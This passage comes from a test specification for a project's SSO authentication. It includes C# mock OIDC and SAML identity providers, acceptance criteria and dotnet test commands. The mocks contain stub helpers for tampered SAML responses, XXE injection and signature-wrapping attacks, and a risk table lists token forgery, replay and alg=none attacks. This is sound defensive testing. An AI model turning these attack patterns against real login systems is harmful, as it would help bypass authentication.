        var result = await _sut.AuthenticateOidcAsync(oldToken);

        // Assert
        result.IsSuccess.Should().BeTrue();
    }

    #endregion

    #region Rate Limiting Tests

    [Fact]
    public async Task Authenticate_RateLimited_ReturnsAppropriateError()
    {
        // Arrange
        _mockProvider.EnableRateLimiting(maxRequests: 5, window: TimeSpan.FromSeconds(10));

        // Act - Exceed rate limit
        var tasks = Enumerable.Range(0, 10)
            .Select(i => _sut.AuthenticateOidcAsync(
                _mockProvider.GenerateIdToken(subject: $"user-{i}")))
            .ToArray();

        var results = await Task.WhenAll(tasks);

        // Assert
        var rateLimitedCount = results.Count(r =>
            r.Error == AuthenticationError.ProviderRateLimited);

        rateLimitedCount.Should().BeGreaterThan(0);
    }

    #endregion
}
```

### 6.5 Mock Providers

```csharp
namespace Lexichord.Tests.Collaboration.Mocks;

/// <summary>
/// Mock OIDC identity provider for testing.
/// </summary>
public class MockOidcProvider : IOidcProvider
{
    private RsaSecurityKey _signingKey;
    private RsaSecurityKey? _oldSigningKey;
    private readonly string _issuer;
    private readonly string _audience;
    private bool _isOnline = true;
    private TimeSpan _latency = TimeSpan.Zero;
    private int? _rateLimitMax;
    private int _requestCount;

    public event Action? OnJwksRequest;

    public MockOidcProvider(
        string issuer = "https://mock-idp.example.com",
        string audience = "lexichord-client")
    {
        _issuer = issuer;
        _audience = audience;
        _signingKey = GenerateRsaKey();
    }

    public string GenerateIdToken(
        string subject,
        string? email = null,
        string? name = null,
        string[]? roles = null,
        TimeSpan? expiresIn = null,
        string? audience = null,
        string? issuer = null,
        Dictionary<string, object>? customClaims = null)
    {
        var claims = new List<Claim>
        {
            new Claim(JwtRegisteredClaimNames.Sub, subject),
            new Claim(JwtRegisteredClaimNames.Iat,
                DateTimeOffset.UtcNow.ToUnixTimeSeconds().ToString(),
                ClaimValueTypes.Integer64),
            new Claim(JwtRegisteredClaimNames.Jti, Guid.NewGuid().ToString()),
        };

        if (email != null)
            claims.Add(new Claim(JwtRegisteredClaimNames.Email, email));

        if (name != null)
            claims.Add(new Claim("name", name));

        if (roles != null)
        {
            foreach (var role in roles)
            {
                claims.Add(new Claim("role", role));
            }
        }

        if (customClaims != null)
        {
            foreach (var (key, value) in customClaims)
            {
                claims.Add(new Claim(key, value.ToString() ?? ""));
            }
        }

        var signingCredentials = new SigningCredentials(
            _signingKey, SecurityAlgorithms.RsaSha256);

        var token = new JwtSecurityToken(
            issuer: issuer ?? _issuer,
            audience: audience ?? _audience,
            claims: claims,
            notBefore: DateTime.UtcNow.AddMinutes(-5),
            expires: DateTime.UtcNow.Add(expiresIn ?? TimeSpan.FromHours(1)),
            signingCredentials: signingCredentials);

        return new JwtSecurityTokenHandler().WriteToken(token);
    }

    public async Task<JsonWebKeySet> GetJwksAsync(CancellationToken ct = default)
    {
        OnJwksRequest?.Invoke();

        if (!_isOnline)
            throw new HttpRequestException("Provider unavailable");

        if (_rateLimitMax.HasValue && _requestCount++ >= _rateLimitMax)
            throw new HttpRequestException("Rate limited") { Data = { ["StatusCode"] = 429 } };

        if (_latency > TimeSpan.Zero)
            await Task.Delay(_latency, ct);

        var keys = new List<JsonWebKey>
        {
            JsonWebKeyConverter.ConvertFromRSASecurityKey(_signingKey)
        };

        if (_oldSigningKey != null)
        {
            keys.Add(JsonWebKeyConverter.ConvertFromRSASecurityKey(_oldSigningKey));
        }

        return new JsonWebKeySet { Keys = keys };
    }

    public void GoOffline() => _isOnline = false;
    public void GoOnline() => _isOnline = true;
    public void ConfigureLatency(TimeSpan latency) => _latency = latency;
    public void EnableRateLimiting(int maxRequests, TimeSpan window)
    {
        _rateLimitMax = maxRequests;
        _requestCount = 0;
    }

    public void RotateKeys(bool keepOldKey = false)
    {
        _oldSigningKey = keepOldKey ? _signingKey : null;
        _signingKey = GenerateRsaKey();
    }

    public string RotateKeysAndGenerateToken(string subject)
    {
        RotateKeys();
        return GenerateIdToken(subject);
    }

    public RSA GetPublicKey() => _signingKey.Rsa;

    private static RsaSecurityKey GenerateRsaKey()
    {
        var rsa = RSA.Create(2048);
        return new RsaSecurityKey(rsa) { KeyId = Guid.NewGuid().ToString() };
    }
}

/// <summary>
/// Mock SAML identity provider for testing.
/// </summary>
public class MockSamlProvider : ISamlProvider
{
    private readonly X509Certificate2 _signingCert;
    private readonly string _entityId;
    private readonly string _acsUrl;
    private readonly HashSet<string> _usedAssertionIds = new();

    public MockSamlProvider(string entityId, string acsUrl)
    {
        _entityId = entityId;
        _acsUrl = acsUrl;
        _signingCert = GenerateSelfSignedCert();
    }

    public string GenerateSamlResponse(
        string nameId,
        SamlNameIdFormat nameIdFormat = SamlNameIdFormat.EmailAddress,
        Dictionary<string, string>? attributes = null,
        Dictionary<string, string[]>? multiValueAttributes = null,
        string? assertionId = null,
        string? inResponseTo = null,
        DateTime? notBefore = null,
        DateTime? notOnOrAfter = null,
        string? audienceRestriction = null)
    {
        assertionId ??= $"_assertion_{Guid.NewGuid():N}";

        var xml = BuildSamlResponse(
            nameId, nameIdFormat, attributes, multiValueAttributes,
            assertionId, inResponseTo, notBefore, notOnOrAfter,
            audienceRestriction);

        return SignXml(xml);
    }

    public string GenerateTamperedResponse(string originalNameId, string tamperedNameId)
    {
        var signedResponse = GenerateSamlResponse(nameId: originalNameId);
        return signedResponse.Replace(originalNameId, tamperedNameId);
    }

    public string GenerateUnsignedResponse(string nameId)
    {
        return BuildSamlResponse(nameId, SamlNameIdFormat.EmailAddress,
            null, null, null, null, null, null, null);
    }

    public bool ValidateAssertionId(string assertionId)
    {
        return _usedAssertionIds.Add(assertionId);
    }

    public string InjectXxePayload(string payload)
    {
        return $"{payload}<samlp:Response>...</samlp:Response>";
    }

    public string GenerateSignatureWrappingAttack(string legitimateNameId, string injectedNameId)
    {
        // Generate a signature wrapping attack payload
        // This should be rejected by proper XML signature validation
        return "<!-- Signature wrapping attack payload -->";
    }

    private string BuildSamlResponse(
        string nameId,
        SamlNameIdFormat nameIdFormat,
        Dictionary<string, string>? attributes,
        Dictionary<string, string[]>? multiValueAttributes,
        string? assertionId,
        string? inResponseTo,
        DateTime? notBefore,
        DateTime? notOnOrAfter,
        string? audienceRestriction)
    {
        // Build SAML response XML
        // (Simplified for brevity - real implementation would use proper XML building)
        return $@"<samlp:Response xmlns:samlp=""urn:oasis:names:tc:SAML:2.0:protocol"">
            <saml:Assertion xmlns:saml=""urn:oasis:names:tc:SAML:2.0:assertion"">
                <saml:Subject>
                    <saml:NameID>{nameId}</saml:NameID>
                </saml:Subject>
            </saml:Assertion>
        </samlp:Response>";
    }

    private string SignXml(string xml)
    {
        // Sign XML with X509 certificate
        // (Simplified - real implementation would use SignedXml)
        return xml;
    }

    private static X509Certificate2 GenerateSelfSignedCert()
    {
        using var rsa = RSA.Create(2048);
        var request = new CertificateRequest(
            "CN=MockIdP",
            rsa,
            HashAlgorithmName.SHA256,
            RSASignaturePadding.Pkcs1);

        return request.CreateSelfSigned(
            DateTimeOffset.UtcNow,
            DateTimeOffset.UtcNow.AddYears(1));
    }
}
```

---

## 7. UI/UX Specifications

**Not applicable.** This is a test-only specification with no user-facing UI components.

---

## 8. Observability & Logging

| Level | Message Template |
| :--- | :--- |
| Debug | `"SSO authentication attempt: provider={Provider}, subject={Subject}"` |
| Debug | `"Token validation: iss={Issuer}, aud={Audience}, exp={Expiry}"` |
| Info | `"SSO session created: userId={UserId}, provider={Provider}"` |
| Warning | `"SSO token validation failed: error={Error}"` |
| Warning | `"SSO provider timeout: provider={Provider}, elapsed={Elapsed}ms"` |
| Error | `"SSO security violation: {AttackType} detected"` |

---

## 9. Security & Safety

| Risk | Level | Mitigation |
| :--- | :--- | :--- |
| Token forgery | Critical | Signature validation required |
| Replay attacks | High | Nonce/AssertionID tracking |
| XML injection | High | Secure XML parser settings |
| alg=none attack | Critical | Algorithm whitelist |
| Key confusion | High | Separate handling of RSA/HMAC |

---

## 10. Acceptance Criteria

### 10.1 Functional Criteria

| # | Given | When | Then |
| :--- | :--- | :--- | :--- |
| 1 | Valid OIDC token | Authenticating | Session created |
| 2 | Expired OIDC token | Authenticating | Error returned |
| 3 | Wrong audience | Authenticating | Error returned |
| 4 | Valid SAML response | Authenticating | Session created |
| 5 | Replayed assertion | Authenticating | Error returned |
| 6 | Invalid signature | Authenticating | Error returned |
| 7 | Valid refresh token | Refreshing | New tokens returned |
| 8 | Revoked session | Refreshing | Error returned |
| 9 | Provider offline | With cached keys | Authentication succeeds |
| 10 | Provider offline | No cached keys | Error returned |

### 10.2 CI Criteria

| # | Given | When | Then |
| :--- | :--- | :--- | :--- |
| 11 | Token bypass vulnerability | CI runs tests | Build fails |
| 12 | All SSO tests pass | CI runs tests | Build succeeds |

---

## 11. Deliverable Checklist

| # | Deliverable | Status |
| :--- | :--- | :--- |
| 1 | `OidcAuthenticationTests.cs` | [ ] |
| 2 | `SamlAuthenticationTests.cs` | [ ] |
| 3 | `TokenLifecycleTests.cs` | [ ] |
| 4 | `ProviderOutageTests.cs` | [ ] |
| 5 | `MockOidcProvider.cs` | [ ] |
| 6 | `MockSamlProvider.cs` | [ ] |
| 7 | Test trait configuration | [ ] |
| 8 | CI filter for `Version=v0.9.8c` | [ ] |

---

## 12. Verification Commands

```bash
# Run all SSO tests
dotnet test --filter "Version=v0.9.8c" --logger "console;verbosity=detailed"

# Run only OIDC tests
dotnet test --filter "FullyQualifiedName~OidcAuthenticationTests"

# Run only SAML tests
dotnet test --filter "FullyQualifiedName~SamlAuthenticationTests"

# Run only resilience tests
dotnet test --filter "FullyQualifiedName~ProviderOutageTests"

# Run with coverage
dotnet test --filter "Version=v0.9.8c" --collect:"XPlat Code Coverage"
```

---

## Document History

| Version | Date | Author | Changes |
| :--- | :--- | :--- | :--- |
| 1.0 | 2026-01-27 | Lead Architect | Initial draft |
